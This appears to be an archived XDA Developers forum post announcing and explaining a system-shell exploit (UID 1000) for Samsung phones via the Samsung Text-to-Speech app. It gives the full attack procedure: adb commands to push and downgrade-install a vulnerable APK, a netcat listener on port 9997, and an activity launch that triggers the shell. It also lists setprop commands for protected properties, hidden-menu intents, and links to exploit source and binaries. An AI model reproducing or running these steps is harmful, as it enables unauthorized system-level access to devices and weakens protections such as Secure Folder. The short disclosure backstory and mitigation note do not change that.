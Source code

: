 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [forum.xda-developers.com](https://forum.xda-developers.com/t/system-shell-exploit-all-samsung-mobile-devices-no-bl-unlock-required.4543071/)

> THIS IS ACTIVELY IN DEVELOPMENT - Our goal is to make it more user friendly. and easier to use, so pl......

 [![](https://forum.xda-developers.com/data/avatars/s/11993/11993791.jpg?1674152113)](/m/k0mraid3.11993791/) 

#### [K0mraid3](/m/k0mraid3.11993791/)

##### Senior Member

Jan 25, 2022

201

147

[content unavailable](/misc/location-info?location=content+unavailable)

[Samsung Galaxy Tab A series](https://forum.xda-developers.com/c/samsung-galaxy-tab-a-series.5865/)

[T-Mobile Samsung Galaxy S8+](https://forum.xda-developers.com/c/t-mobile-samsung-galaxy-s8.6368/)

[](javascript:;)

*   [Jan 18, 2023](/t/system-shell-exploit-all-samsung-mobile-devices-no-bl-unlock-required.4543071/post-88016081)

*   [#1](/t/system-shell-exploit-all-samsung-mobile-devices-no-bl-unlock-required.4543071/post-88016081)

_**THIS IS ACTIVELY IN DEVELOPMENT**_ - _Our goal is to make it more user friendly. and easier to use, so please note things will change and updates will come at any given time, and there is almost certainly bugs to be found and encountered along the way during this, so if you find issues, just let us know here or in support chat, we are VERY active, and can usually get back to you in a few mins. I Will be dynamically updating this post as things progress, keeping it up-to-date with our current progress._  
**_`--UPDATED 01/20/2023: 1:20PM CST PROJECT VERSION 4.5 -- (Fixed Port issues) --`_**  
Also confirmed working on Watch.. as mentioned, [here.](https://forum.xda-developers.com/t/system-shell-exploit-all-samsung-mobile-devices-no-bl-unlock-required.4543071/post-88031395)  
This is an **_EXPLOIT_** to get a **_System based shell (UID 1000)_** on **_ANY_** Samsung Mobile Device. No clue if or when it will be patched, but has worked on every single Samsung Device tested so far.  
THIS IS THE **EQUILIVELENT** OF DOING `su system` but this **_DOES NOT_** invoke or need "su" in any way.  
This **_DOES NOT trip Knox.  
This DOES NOT give you ROOT (UID 0)_**  
_**This DOES NOT directly unlock your bootloader, although you may be able to find a way to do so using this exploit as a tool.  
If you use this for your own works, Please give credit.**_  
Next best thing to root on devices **_without_** BootLoader Unlock Option.  
Cool things that work:  
Ability to cd to /data/fota and remove updates before they install - Access to most of /efs /efs/imei /efs/sec_efs /efs/FactoryApp - Access to most of /data /data/system /data/user/0/ANY_SYSTEM_APP - The "Insthk" bin becomes useable, - Secure Folder/Separated Apps becomes COMPLETELY compromised if you also install the POC in it (UID 150_system) - start IOTHidden Menu, DM Mode, Service Mode, Multiple Debugging and hidden menus as well as preconfig in system context- Install and use DSU on locked bootloader - Change many protected props, such as: `setprop persist.service.adb.root 1 setprop service.adb.root 1 setprop sys.hidden.otatest 1 setprop sys.hiddenmenu.enable 1 setprop persist.sys.knox.device_owner true setprop persist.sys.usb.qxdm.debug 1 setprop sys.usb.qxdm.debug 1 setprop presist.service.adb.enable 1 setprop persist.sys.usb.qxdm.debug 1 setprop service.adb.enable 1 setprop persist.rollback.is_test true setprop sys.oem_unlock_allowed 1` aswell as quite a bit more.  
[![](https://forum.xda-developers.com/data/attachments/4301/4301837-5c5047b0fa39c20d186cd764eef76d11.jpg)](https://forum.xda-developers.com/attachments/1674233415470-png.5815369/)  
**_Note* You need to be on Wifi or Hotspot to set this up._**  
_**Its fairly simple, a Typical Local Privilege escalation.**_  
**_The Easy Way_** - Note, This could trigger some AV's due to embedded ADB and adb dlls, as mentioned in [this comment](https://forum.xda-developers.com/t/system-shell-exploit-all-samsung-mobile-devices-no-bl-unlock-required.4543071/post-88023529).  
You may also find the source and prebuilts on my github, [here.](https://github.com/k0mraid3)  
Step 1 - Download "Komraids System Shell.zip", (attached is the latest version) and extract anywhere on desktop. Install K0mraids POC.apk, Open atleast one time. Reboot.  
Step 2 - Ensure USB Debugging is ON, and computer is authorized. Also make sure power saving is OFF.  
Step 3 - When device is fully rebooted and unlocked, run systemshell.exe  
Step 4 - You should now be in a shell with UID 1000. Enjoy. Be careful with what you mess with.  
**_Things to note:_** The.exe only needs to be run _once after each reboot__,_ you can use it if you prefer, or _if you are having issues_ here or want to _manually open a system shell yourself, Check out "How it works?" below._  
****You MUST downgrade SMT (Samsung TTS) on EVERY reboot****​ **_How it works? (stuff for security researchers, devs etc)_**  
  
**Step 1** - Install the included "komraids_POC.apk" to the device and _**make sure to open it and let it load at least one time**_, then push the included "samsungTTSVULN2.apk" to /data/local/tmp (`adb push samsungTTSVULN2.apk /data/local/tmp`) -> `chmod 777 /data/local/tmp/samsungTTSVULN2.apk` >>> I advice disabling all battery optimizations for Samsung TTS and Shell, otherwise, it cuts off the shell from time to time.  
**Step 2** - Make sure ADB is on, Device connected to wifi and authorized and all power saving is off (as mentioned above) **Reboot device**. **_This will load our lib on reboot since TTS loads all native libs on reboot_**.  
**Step 4** - When device reboots, run this command from ADB. `adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk` ---> it will return "Success" when done.  
**Step 5** - Now, **open _two_ shells**, (_OR, See_ **_NOTE_**_* below to use App Manager_) in the first, do `nc -lp 9997` & in the second, do `am start -n com.samsung.SMT/.gui.DownloadList` -> Look back at the first shell., it should have opened into a new system (UID 1000) shell.  
****You MUST downgrade SMT (Samsung TTS) on EVERY reboot****​ _SMT has a receiver that blindly accepts stuff, so a carefully crafted apk (Our "komraids_POC_v1.5.apk") can trick it into loading our neat lib which opens a shell for us on localhost port 9997!_  
SOURCE - [on GitHub, here.](https://github.com/k0mraid3/K0mraid3s_System_Shell-Source)  
_**Use `logcat | grep -i mercury` to debug if lib is loaded or not.  
NOTE: You can use something like [AppManager, seen here,](https://github.com/MuntashirAkon/AppManager) or another App installer/manager to launch the SMT activity in step 5, _**make a shortcut to it on your home screen for easy of access**_ if you have issues, give this a go instead of using two shells, only use one for the nc -lp 9997 part and App MAnager to launch activity.**_ .  
**_You are now UID 1000. Enjoy._**  
_FAQ_  
_Why wont it connect/open the system shell?_  
Various reasons can cause this, one of the most common is "Battery Optimizations", a form of power saving that can kill our apps. Power Saving is the number one issue for problems with this exploit. Second most common is, believe it or not, turning on ADB/WIFI. So make sure you either have a full battery and all power saving features are OFF, or are plugged in via USB.  
Next, make sure to FORCE stop everything and try to nc -lp and launch smt again, i know its annoying, but its taken me many tries before.  
Clear Cache of SMT  
Uninstall PoC, Reboot, Re-install PoC, Reboot, Downgrade SMT.  
_Why does this exist?_  
Idk, it was supposed to have been **_patched back in 2019_**, obviously it **_wasn't sufficient_**.  
_How do I prevent someone from hacking me with this?_  
Simple, be _**Offensive**_, set it up and lock up the lib/port, once your using this exploit, no others can because they **_cant load_** a second lib of the same. (**_the vuln is the lang packs for samsung Text-to-speech_**) -- or, _**Disable or Remove Samsung Text-To-Speech**_.  
_How do I use this in Termux or other Terminal Emulators?_  
You will need to use the manual way, as described in **_Step 5_** of **_"How it works?"_**  
_I cant get it to work, can anyone help?_  
Yes, post here or go to our Telegram Group for support, [here (click me)](https://t.me/+RLYzOPEKy95hNGFh)  
_Can this work with LSPosed/LSpatch?_  
Yes, but it has its limitations currently. I've tested a few modules myself, some work, some don't.  
_Will this work with Magisk or Shizuku?_  
Yes, But it depends on [@topjohnwu](https://forum.xda-developers.com/m/4470081/) and [@Rikka](https://forum.xda-developers.com/m/536265/), respectfully, to give the green light to me to incorporate this and post those here or post their compatible versions here on their own. I am open to working with them and have already seen and used a working Shizuku mod using this Exploit, but **_out of respect for the Developer and legality issues, I cant share that here._**. HOWEVER, _I do believe it is a good idea to get a manager for this built quickly if we plan on developing off of this._  
_Will you share the source code?_  
Yes, It is already on my GitHub, [here.](https://github.com/k0mraid3)  
**_How do i open Hidden stuff?_**  
For now, we will need to do it manually, so try these from System shell  
**_This opens IOTHiden menu_**  
`am start -n com.sec.hiddenmenu/.IOTHiddenMenu -e 7267864872 72678647376477466`  
**_This opens CID Managers "Preconfig"_**  
`am start -n com.samsung.android.cidmanager/.modules.preconfig.PreconfigActivity -a com.samsung.android.action.SECRET_CODE -d secret_code://27262826 --ei type 2`  
**_This opens the DM Mode on/off Toggle_**  
`am start -n com.sec.hiddenmenu/.DmMode -e 7267864872 72678647376477466`  
Ill add more interesting and useful commands/things to do as time goes on. Please do drop any cool things you find here!  
_BACK STORY:_  
Its full or drama and BS. I reported this to Samsung in October 2022, but they have decided this is GOOGLES problem and forgot to tell me their decision. LONG STORY CUT SHORT, Between the time Samsung decided this was GOOGLES problem and them telling me of that decision, somehow, "another external security researcher" reported this exact thing to google in the context it was their find. IDK who, nor do I really care at this point. Its done and over with, but stuff like this is what makes some security researches ever hesitant to share their finds, even with the shady vendors/OEMS.  
**_Don't be dumb, I'm not responsible for any mistakes you make._**  
[![](https://forum.xda-developers.com/data/attachments/4299/4299965-d38cf190f7b826f742a1ccefc686baf1.jpg)](https://forum.xda-developers.com/attachments/pwned-k0mraid3-2022-10-06-175216-png.5813497/)  
Big shout out to [@wr3cckl3ss1](https://forum.xda-developers.com/m/11522679/) and alll the others for the help testing, debugging and the massive amount more done to help get this right. It was truely a team effort and nothing less then a labor of love & passion for cybersecurity and learning. I learned more during this project with you guys then I can express.  
Huge thanks to [@oakieville](https://forum.xda-developers.com/m/2719104/) for the .exe and alot of help tweaking the code of this project.  
_**This project was brought to you by VAULT-TEC Dev Ops!**_  

#### Attachments

*   [](/attachments/komraids-system-shell-v4-5-zip.5815471/)Komraids System Shell V4.5.zip 65.3 MB · Views: 905

Last edited: Jan 24, 2023

*   ![](data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7)
*   ![](data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7)
*   ![](data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7)

Reactions: [reepje123, hinderless, xdagee and 30 others](/posts/88016081/reactions)